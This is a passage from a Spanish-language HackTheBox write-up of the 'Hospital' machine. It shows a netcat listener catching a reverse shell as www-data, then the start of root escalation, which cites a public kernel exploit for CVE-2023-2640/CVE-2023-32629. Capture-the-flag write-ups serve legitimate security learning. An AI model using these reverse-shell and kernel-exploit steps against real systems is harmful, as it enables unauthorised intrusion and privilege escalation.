 ```bash
➜  content nc -nlvp 443
listening on [any] 443 ...
```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/hospital/10.png">
</p>

- Recibimos la `shell`.

```bash
➜  content nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.11.241] 6602
bash: cannot set terminal process group (974): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$
```

## Root

- La versión del `kernel` es vieja y es vulnerable <https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629>.

```bash
www-data@webserver:/var/www/html/uploads$ uname -r
5.19.0-35-generic
www-data@webserver:/var/www/html/uploads$
```

